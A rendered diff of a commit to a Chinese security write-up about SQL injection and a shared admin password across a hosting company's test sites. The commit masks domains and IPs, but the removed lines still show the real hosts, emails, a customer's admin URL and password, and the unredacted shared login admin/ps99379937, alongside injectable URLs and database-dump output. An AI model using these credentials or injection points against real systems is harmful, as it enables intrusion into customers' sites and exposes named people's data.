

Before and after one commit to limengmingx/Papers, a Jekyll site: the page built from PVE-2014092401.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 97% size, without its empty margins (108-998 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; a script that is not in the unit is left out; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update PVE-2014092401.md
虽说已经修复没什么影响，但还是打下码。

````diff
--- a/PVE-2014092401.md
+++ b/PVE-2014092401.md
@@ -7,34 +7,34 @@ Feei <feei#feei.cn> 09/2014
 ```
 [+] Emails found:
 ------------------
-david@iecworld.com
-admin@iecworld.com
-divid@iecworld.com
+david@***world.com
+admin@***world.com
+divid@***world.com
 
 [+] Hosts found in search engines:
 ------------------------------------
-122.227.230.250:server.iecworld.com
-61.130.97.52:www.iecworld.com
-114.80.68.133:testweb5.iecworld.com
-61.130.97.53:wiki.make.iecworld.com
-114.80.67.29:testweb7.iecworld.com
-114.80.68.191:testweb6.iecworld.com
-61.130.97.55:shop.testweb.iecworld.com
-61.130.97.53:cn.iecworld.com
-61.130.97.55:testweb.iecworld.com
-60.191.124.236:admin.iecworld.com
-61.130.97.54:make1.iecworld.com
-61.130.97.53:make.iecworld.com
-60.191.124.236:is-service.iecworld.com
-61.130.97.53:service.iecworld.com
-60.191.124.236:is-testweb7.iecworld.com
-61.130.97.52:file.iecworld.com
-60.191.124.236:hk.iecworld.com
-60.191.124.236:253Dcn.iecworld.com
+122.227.***.250:server.***world.com
+61.130.***.52:www.***world.com
+114.80.***.133:testweb5.***world.com
+61.130.***.53:wiki.make.***world.com
+114.80.***.29:testweb7.***world.com
+114.80.***.191:testweb6.***world.com
+61.130.***.55:shop.testweb.***world.com
+61.130.***.53:cn.***world.com
+61.130.***.55:testweb.***world.com
+60.191.***.236:admin.***world.com
+61.130.***.54:make1.***world.com
+61.130.***.53:make.***world.com
+60.191.***.236:is-service.***world.com
+61.130.***.53:service.***world.com
+60.191.***.236:is-testweb7.***world.com
+61.130.***.52:file.***world.com
+60.191.***.236:hk.***world.com
+60.191.***.236:253Dcn.***world.com
 ```
 
 提取有用信息
-`testwebN.iecworld.com`
+`testwebN.***world.com`
 
 - 上面这种域名是用来测试访问网站的(比如客户住域没有备案或者还没购买,先通过这个域名的二级目录来访问)
 - 有N个这类二级域名
@@ -48,21 +48,21 @@ divid@iecworld.com
 
 ```
 testweb 61.130.97.55
-http://testweb.iecworld.com/yining/admin/login.php
+http://testweb.***world.com/yining/admin/login.php
 
 testweb2 61.130.97.52 主站
-http://testweb2.iecworld.com/suotie/admin/login.php
+http://testweb2.***world.com/suotie/admin/login.php
 
 testweb3 114.80.68.131
-http://testweb3.iecworld.com/wangxiang/cn/products.php?tid=18&id=1
+http://testweb3.***world.com/wangxiang/cn/products.php?tid=18&id=1
 
 testweb4
-testweb4.iecworld.com/lnr/cn/faqed.php?id=11&gid=1
+testweb4.***world.com/lnr/cn/faqed.php?id=11&gid=1
 
 ...
 ```
 
-`http://testweb7.iecworld.com/dongfang/cn/products.php?act=list&id=7`
+`http://testweb7.***world.com/dongfang/cn/products.php?act=list&id=7`
 
 **通过注入点拿到数据库权限**
 ```
@@ -87,7 +87,7 @@ available databases [4]:
 [*] information_schema
 [*] maindb
 [*] test
-[*]
+[*] ...
 
 Database: maindb
 [10 tables]
@@ -102,6 +102,7 @@ Database: maindb
 | t_plugin |
 | t_progress |
 | t_timeline |
+| ... |
 +———————————————————+
 ```
 
@@ -122,6 +123,7 @@ Database: maindb
 | t_plugin |
 | t_progress |
 | t_timeline |
+| ... |
 +——————+
 ```
 
@@ -136,6 +138,7 @@ Database: maindb
 | t_bak |
 | t_dict |
 | t_feedback |
+| ... |
 +------------+
 ```
 
@@ -144,7 +147,7 @@ Database: maindb
 - 每个客户网站只有自己数据库权限和一个名为mainbd库的权限
 - 通过分析maindb表结构发现里面竟然存了该二级域名下的所有网站相关信息(管理员帐号密码/反馈/备份/日志/插件等)
 - 每个二级域的maindb库里面的的客户信息表都是t_admin,并且密码没有加密
-- 每个二级域的maindb库管理员表里面都有一个admin ps99379937的管理员帐户,按理说如果是存放客户的密码,为什么会都有这个帐号呢,于是继续深入下去发现了每个二级域都有一个总的管理后台(e.g `testweb2.iecworld.com/admin`)
+- 每个二级域的maindb库管理员表里面都有一个admin ps99379937的管理员帐户,按理说如果是存放客户的密码,为什么会都有这个帐号呢,于是继续深入下去发现了每个二级域都有一个总的管理后台(e.g `testweb2.***world.com/admin`)
 
 ## 3. 漏洞影响
 
@@ -154,29 +157,29 @@ Database: maindb
 
 使用`admin`/`ps99379937`可以登陆所有后台,如下
 
-- `testweb.iecworld.com/admin` (主要是11年建设的网站,共1940个客户)
-- `testweb2.iecworld.com/admin` (主要是11年建设的网站,共1689个客户)
-- `testweb3.iecworld.com/admin` (主要是11年建设的网站,共1100个客户)
-- `testweb4.iecworld.com/admin` (主要是12年建设的网站,共1143个客户)
-- `testweb5.iecworld.com/admin` (主要是11年建设的网站,共1689个客户)
-- `testweb6.iecworld.com/admin` (主要是13年建设的网站,共1273个客户)
-- `testweb7.iecworld.com/admin` (主要是13年建设的网站,共1093个客户)
-- `testweb8.iecworld.com/admin` (主要是14年建设的网站,共483个客户)
-- `testweb9.iecworld.com/admin` (主要是14年的)
-- `testweb10.iecworld.com/admin` (主要是14年的)
-- `testweb11.iecworld.com/admin` (主要是14年的)
+- `testweb.***world.com/admin` (主要是11年建设的网站,共1940个客户)
+- `testweb2.***world.com/admin` (主要是11年建设的网站,共1689个客户)
+- `testweb3.***world.com/admin` (主要是11年建设的网站,共1100个客户)
+- `testweb4.***world.com/admin` (主要是12年建设的网站,共1143个客户)
+- `testweb5.***world.com/admin` (主要是11年建设的网站,共1689个客户)
+- `testweb6.***world.com/admin` (主要是13年建设的网站,共1273个客户)
+- `testweb7.***world.com/admin` (主要是13年建设的网站,共1093个客户)
+- `testweb8.***world.com/admin` (主要是14年建设的网站,共483个客户)
+- `testweb9.***world.com/admin` (主要是14年的)
+- `testweb10.***world.com/admin` (主要是14年的)
+- `testweb11.***world.com/admin` (主要是14年的)
 
 上面截图是其中一个二级域名的管理后台，可以看到很多敏感信息
 所有客户网站后台均可以登陆
 从`testweb的maindb.t_admin`随便挑选一个用户
 
 ```
-2644,102,宁波,朱宁斌,,lixiang,4,0,0,5000,李勇,100,lixiang,陈海啸,3lxanc85,,1,2,0,D0:D1:D2:D3:F0:F1:F2:F3:F4:F5:F6:F7:F8:F9:F10:E0:E1:E2:E3:E4:E5:E6:E7:E8:E9:E10:G0:G1:G2:G3:G4:G13:G5:G6:G7:G8:I0:I1:I2:I3:O1:O2,2009-04-30 16:24:58,http://chinalx.com,2010-02-12 00:00:00,100,宁波理想信息工程有限公司,cn/index.php,2009-02-12 00:00:00,,宁波理想信息工程有限公司
+2644,102,宁波,朱宁斌,,lixiang,4,0,0,5000,李勇,100,lixiang,陈海啸,3lxanc85,,1,2,0,D0:D1:D2:D3:F0:F1:F2:F3:F4:F5:F6:F7:F8:F9:F10:E0:E1:E2:E3:E4:E5:E6:E7:E8:E9:E10:G0:G1:G2:G3:G4:G13:G5:G6:G7:G8:I0:I1:I2:I3:O1:O2,2009-04-30 16:24:58,http://china***.com,2010-02-12 00:00:00,100,宁波**信息工程有限公司,cn/index.php,2009-02-12 00:00:00,,宁波**信息工程有限公司
 ```
 
-宁波理想信息工程有限公司(http://www.chinalx.com/)
-登陆地址:http://www.chinalx.com/admin/
-帐号:lixiang 密码3lxanc85
+宁波**信息工程有限公司(http://www.china***.com/)
+登陆地址:http://www.china***.com/admin/
+帐号:lixiang 密码3lxanc**
 
 粗略测试了下,客户案例里面大部分都能登陆并获取到网站后台权限和数据库权限甚至源码。
 点到为止,不继续挖了。
````
